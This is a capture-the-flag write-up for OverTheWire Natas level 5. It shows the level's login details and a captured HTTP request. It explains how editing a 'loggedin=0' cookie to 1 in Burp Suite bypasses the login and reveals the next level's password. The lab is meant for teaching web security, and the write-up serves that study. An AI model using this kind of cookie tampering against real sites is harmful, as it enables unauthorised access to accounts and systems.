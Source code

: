 ```yaml
---
layout: post
title: Overthewire Natas Level 5
subtitle: ... Write up
tags: [overthewire, natas, level5, overthewire-natas, writeup]
---
```


## Natas Level 5
* Username: natas5
* Password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
* URL:      http://natas5.natas.labs.overthewire.org


**Step 1:** Let Login to the URL, you will see the message
> Access disallowed. You are not logged in

**Step 2:** Check Page Source and Robotics file as usual but I could not find anythings useful from those.

**Step 3:** Again, I think I need Burp Suite. Capture the GET response from Burp
```
GET / HTTP/1.1
Host: natas5.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: __cfduid=dc69616187b4a387a963c02e8d931c8f61524815545; __utma=176859643.1702516967.1524815549.1524815549.1524836149.2; __utmz=176859643.1524815549.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); loggedin=0
Authorization: Basic bmF0YXM1OmlYNklPZm1wTjdBWU9RR1B3dG4zZlhwYmFKVkpjSGZx
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```
**Step 4:** Look at the Cookie, _loggedin=0_. Ah ha, we are familiar to 1 and 0 as binary code. _loggedin=0_ is not login so what happen if it become 1. Change 0 to 1 and forward the request. <br>
Awesome!
```
Access granted. The password for natas6 is aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1
```
